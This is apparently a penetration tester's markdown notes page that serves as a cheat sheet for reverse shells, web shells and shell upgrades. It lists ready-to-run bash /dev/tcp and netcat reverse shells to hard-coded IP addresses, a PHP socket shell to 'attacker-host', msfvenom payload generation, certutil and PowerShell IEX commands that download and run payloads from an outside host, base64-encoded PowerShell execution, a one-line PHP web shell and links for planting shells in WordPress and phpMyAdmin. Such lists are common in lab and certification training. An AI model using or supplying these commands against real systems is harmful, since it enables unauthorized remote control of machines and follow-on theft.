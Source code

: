 ```yaml
---
sticker: emoji//1f41a
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
https://www.revshells.com/
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.201/80 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

##### NC
```
busybox nc 10.10.10.10 9001 -e powershell/sh
nc.exe 10.10.10.10 9001 -e powershell/sh
nc 10.10.10.10 9001 -e powershell/sh
```

##### PHP
```
php -r '\$sock=fsockopen(\"attacker-host\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```

##### LSP
```
https://github.com/the-emmons/lsp-reverse-shell/blob/main/rev.lsp
```
### Windows
#####  CMD
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Transfer reverse shell to your users home directory.
certutil -urlcache -split -f http://192.168.45.178:80/myshell.exe C:\\users\\<user>\\myshell.exe"

#Execute
C:\\users\\<user>\\myshell.exe
```

##### SMB Share
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Setup smb server.
impacket-smbserver -smb2support kali $PWD

#Transfer and execute shell.
//<kali-ip>/kali/myshell.exe
```

##### Netcat

```
nc.exe <listening_host> <listening_port> -e cmd
```

##### Powershell

```
#Using powercat.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"
```
##### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
#### Linux
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```

#### Windows
```
#If you are finding basic commands can't be recognised.
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;

```


##### CMS SPECIFIC
```
PHPMYADMIN: SQL query: https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com
WORDPRESS: https://secnhack.in/upload-shell-on-wordpress-site/
```